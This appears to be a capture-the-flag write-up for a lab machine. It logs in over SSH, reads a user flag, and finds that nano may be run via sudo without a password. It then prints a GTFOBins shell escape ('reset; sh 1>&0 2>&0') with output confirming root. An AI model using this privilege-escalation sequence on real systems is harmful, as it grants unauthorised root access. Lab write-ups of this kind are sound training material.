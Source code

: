### ssh login

```sh 
ssh h***@10.10.93.39               
h***@10.10.93.39's password: 
Last login: Mon Oct  5 18:45:59 2020 from 10.11.3.139
h***@brookly_nine_nine:~$
```

We get access to the target. cat the user-flag witch is located under the logged in user.

```sh
holt@brookly_nine_nine:~$ cat user.txt
e******************************e
```

Lets get the root flag.

tried the commadn sudo-l and the user can run one command as sudo user:

```sh
h***t@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/n***
```

lets jump to GTFO-Bins to look if we can use nano for our priv-escalation

### Priv-Escalation 

Found a way on GTFO-Bins for my Priv-Escalation. 

```sh
sudo bin/n***
^R^X
reset; sh 1>&0 2>&0
```

So I execudet the application and run the commands witch GFTO-Bins recommend. 

```sh
Command to execute: reset; sh 1>&0 2>&0# id
```

Now we have root access on the target. 

```sh 
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
#
``` 

We can now read the root-flag under /root.

